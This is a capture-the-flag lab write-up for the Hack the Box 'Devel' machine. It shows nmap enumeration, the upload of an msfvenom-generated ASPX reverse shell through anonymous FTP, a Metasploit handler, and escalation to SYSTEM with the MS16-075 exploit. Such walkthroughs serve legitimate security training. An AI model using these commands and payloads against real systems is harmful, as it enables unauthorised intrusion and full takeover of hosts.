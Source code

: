 # Machine: Devel

Date: 2024-06-13

## Overview

This write-up details my approach to compromising the "Devel" machine on Hack the Box. The Devel machine is a Windows 7 Enterprise system running an IIS web server and an FTP server with anonymous login enabled. Below are the steps I followed to successfully exploit the machine and obtain the necessary flags.

## Steps to Compromise the Machine

### 1. Enumerating

Initial Nmap Scan:

```bash
nmap -sS -p- -v <IP> -oN full_tcp_scan.txt
```

The scan revealed two open ports:

```
21/tcp: FTP (Microsoft ftpd, anonymous login allowed)
80/tcp: HTTP (Microsoft IIS httpd 7.5)
```

Service and Version Scan:

```bash
nmap -sV -sC -p21,80 <IP> -oN ports_scan.txt -oX ports_scan.xml -v
```

The detailed scan provided the following information:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 06-13-24  11:42AM                  698 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The target was identified as a Windows machine running IIS web server version 7.5 and an FTP server with anonymous login enabled.

### 2. Gaining Access

At first, I accessed the FTP server and confirmed it was the IIS web root path by modifying the iisstart.htm file.

I Generate an ASPX Payload and put in FTP root path:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<MY IP> LPORT=<PORT> -f aspx -o shell.aspx
ftp <IP>
put shell.aspx
```

I started a metasploit listener

```bash
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LPORT 80
run
```

And I trigged the payload from my browser and I got the shell and I was iis apppool\web an unprivilege user.

### 3. Privilege Escalation

Using Metasploit post module to Suggest Exploits to elevate my privileges:

```bash
use post/multi/recon/local_exploit_suggester
run
```

I found and executed the exploit/windows/local/ms16_075_reflection_juicy exploit to escalate privileges to NT AUTHORITY\SYSTEM.

## Flag Capture:

Located and captured the user and root flags.

## Conclusion

Compromising the Devel machine involved identifying open ports, accessing the FTP server to upload a web shell, and exploiting the system using a combination of reverse shells and privilege escalation techniques. This exercise reinforced key concepts in web server exploitation and privilege escalation on Windows systems.

***

